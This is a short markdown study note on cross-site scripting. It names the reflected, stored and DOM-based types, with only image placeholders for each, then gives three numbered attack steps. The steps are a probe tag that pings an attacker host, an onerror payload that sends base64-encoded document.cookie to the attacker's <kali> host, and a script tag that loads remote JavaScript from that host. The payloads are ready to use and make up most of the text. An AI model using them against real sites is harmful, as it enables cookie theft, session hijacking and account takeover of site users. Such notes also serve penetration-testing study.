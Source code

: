 ```yaml
---
title: XSS
updated: 2023-12-03 07:41:02Z
created: 2023-09-29 12:49:28Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```


# XSS

## Reflected

<img src="../../_resources/7bac63d6f98ccfcd5b77c855886c4c73.png" alt="7bac63d6f98ccfcd5b77c855886c4c73.png" width="451" height="205">

## Stored

<img src="../../_resources/075c441a0a3fa592d0eb60a6114a06ba.png" alt="075c441a0a3fa592d0eb60a6114a06ba.png" width="354" height="327">

## DOM-based

<img src="../../_resources/d812e1102c0f5265300d6ef7e0367024.png" alt="d812e1102c0f5265300d6ef7e0367024.png" width="353" height="236">


1. Check if the form is vulnerable to **XSS** by adding an **img** tag in the comment section.
`<img src=http://<kali>/ping />`

2. Steal cookies
`<img src=x onerror=this.src='http://<kali>/?cookies='+btoa(document.cookie)
/>`

3. Run script
`<script src=http://<kali>/script.js></script>`

